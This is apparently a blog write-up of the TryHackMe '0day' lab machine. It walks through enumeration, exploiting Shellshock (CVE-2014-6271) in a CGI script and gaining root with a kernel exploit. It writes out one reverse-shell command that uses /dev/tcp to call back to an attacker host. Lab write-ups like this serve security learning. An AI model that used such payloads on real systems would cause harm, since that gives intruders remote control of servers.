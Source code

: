 ```yaml
---
title: 0day - TryHackMe
author: Sujit Suryawanshi
date: 2020-11-09 15:10:00 +0800
categories: [TryHackMe]
tags: [tryhackme, 0day, shellshock]
---
```


<h3><strong><span style="color:#ff5555">0day - TryHackMe</span></strong></h3>
---

![Desktop View]({{ "/assets/img/thm-machines/0day-main.png" | relative_url }})

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Hey All, Hope you all are safe and doing well. Today I'm gonna do 0day machine by Ryan Montgomery on TryHackMe.It's really good machine on ShellShock Vulnerability which is available in cgi-bin directory with test.cgi file name and the Privilage Escalation is also awesome because of the old kernel version.

So what is exactly ShellShock Vulnerability?

As per NetSparker, Shellshock is a security bug causing Bash to execute commands from environment variables unintentionally. In other words if exploited the vulnerability allows the attacker to remotely issue commands on the server, also known as remote code execution.
Since the environment variables are not sanitized properly by Bash before being executed, the attacker can send commands to the server through HTTP requests and get them executed by the web server operating system.
The ShellShock Vulnerability, discovered by Stephane Chazelas was assigned the CVE identifier CVE-2014-6271.

Now let's go for practical to understand and hack this machine.

**This blog is meant for educational purposes only.**

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

First starting with Nmap, I found two open ports that is Port 22 and Port 80. Here Port 22 is running OpenSSH 6.6.1p1 service and Port 80 is running Apache - 2.4.7 service on Ubuntu Operating System.

![Desktop View]({{ "/assets/img/thm-machines/0day-nmap.png" | relative_url }})
---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---
For further enumeration, I moved to Port 80 to check which kind of web application is running.

![Desktop View]({{ "/assets/img/thm-machines/0day-website.png" | relative_url }})

So the web application was static. Lets run Dirsearch with common.txt to discover more content/directories of this web application.
On other hand I started Nikto on this web application to identify common vulnerabilities.

The Dirsearch gave me below result which contains a lot of sensitive directories.

![Desktop View]({{ "/assets/img/thm-machines/0day-dirsearch.png" | relative_url }})

I started visiting one by one to enumerate and to find something fruitful.

In **/admin** directory, I got nothing and it was totally blank page so I moved towards **/backup** directory and it gave me Private SSH key.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-key.png" | relative_url }})

Next, I saved that key and tried to login into server with different usernames such as root, admin, ryan etc but none them worked. The SSH key was asking password to login and I was doubting on this SSH key as it can be rabbit hole.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-error.png" | relative_url }})

At last I moved further to enumerate other directories of web application.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

But before that I checked Nikto's result and it gave me a lot of hints.

![Desktop View]({{ "/assets/img/thm-machines/0day-nikto.png" | relative_url }})

In above screenshot you can see Nikto gave one uncommon header which is actually a CVE id of ShellShock Vulnerability and also it gave /cgi-bin/test.cgi file.
For exploitation, I googled CVE id and checked one Github page there I got Oneliner to test and confirm the ShellShock Vulnerability.

![Desktop View]({{ "/assets/img/thm-machines/0day-github.png" | relative_url }})

After trying above Oneliner, I confirmed the ShellShock Vulnerability and continued to get reverse shell of server.

![Desktop View]({{ "/assets/img/thm-machines/0day-oneliner.png" | relative_url }})

After using Onliner with **sh>&/dev/tcp/10.10.10.10/1337 0>&1** command, I got initial shell. Here we are redirecting the output of bash on 10.10.10.10 with Port 1337 using /dev/tcp connection.

![Desktop View]({{ "/assets/img/thm-machines/0day-reverse-shell.png" | relative_url }})

Now it's time to upgrade our shell and start enumeration to get higher privileged user.

I used python tty and set PATH environment to upgrade my shell.

After going to **/home** directory I got **ryan** user and also I was able to read his flag as the read permission was given.

![Desktop View]({{ "/assets/img/thm-machines/0day-user-flag.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

After running **LinPeas.sh** for Privilege Escalation, I got vulnerable Linux Kernel version.

![Desktop View]({{ "/assets/img/thm-machines/0day-linpeas.png" | relative_url }})

Here SearchSploit helped me to get the exploit.

![Desktop View]({{ "/assets/img/thm-machines/0day-searchsploit.png" | relative_url }})

After running the exploit, I got the root!!!

![Desktop View]({{ "/assets/img/thm-machines/0day-root-flag.png" | relative_url }})

If you want detailed explanation about this Privilage Escalation vulnerability then go [here](https://www.halfdog.net/Security/2015/UserNamespaceOverlayfsSetuidWriteExec/)

**Thanks for reading this writeup and all suggestions are welcome.**
